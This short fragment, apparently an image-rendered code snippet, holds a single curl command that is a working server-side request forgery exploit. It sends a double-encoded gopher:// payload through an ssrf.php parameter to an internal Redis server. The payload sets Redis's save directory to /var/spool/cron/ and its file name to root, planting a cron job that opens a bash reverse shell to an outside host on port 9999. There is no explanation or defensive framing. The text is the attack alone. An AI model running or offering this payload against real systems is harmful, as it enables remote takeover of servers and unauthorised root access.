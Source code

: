 ```
curl -v 'http://xxx.com/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F1.1.1.1%2F9999%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a'
```
